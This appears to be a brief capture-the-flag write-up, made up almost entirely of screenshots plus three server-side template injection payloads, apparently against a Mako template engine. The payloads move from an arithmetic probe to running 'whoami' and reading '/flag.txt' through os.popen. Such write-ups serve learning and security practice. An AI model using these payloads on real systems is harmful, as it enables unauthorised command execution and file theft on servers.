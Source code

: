 <img width="1917" height="619" alt="image" src="https://github.com/user-attachments/assets/25df0120-95f1-499d-ac3b-07af81f9db76" />
<img width="1919" height="754" alt="image" src="https://github.com/user-attachments/assets/e2fe3a3b-9236-4af8-91ce-949dc458988f" />
<img width="887" height="415" alt="image" src="https://github.com/user-attachments/assets/fc5a4e44-82d6-4189-90cc-39722eb5d723" />

${7*7}
<img width="1907" height="673" alt="image" src="https://github.com/user-attachments/assets/9cebc7a5-97b6-4eb3-9d5d-4c9511a2b131" />
${self.module.cache.util.os.popen('whoami').read()}
<img width="1919" height="747" alt="image" src="https://github.com/user-attachments/assets/87599176-17a1-4584-bb0a-a00d4256b08f" />
<img width="1918" height="772" alt="image" src="https://github.com/user-attachments/assets/06bd8304-729d-4505-8c83-e3599bd7dd41" />
${self.module.cache.util.os.popen('cat /flag.txt').read()}
<img width="1205" height="818" alt="image" src="https://github.com/user-attachments/assets/9442d4b8-7261-4894-a4c5-debb887d57a5" />
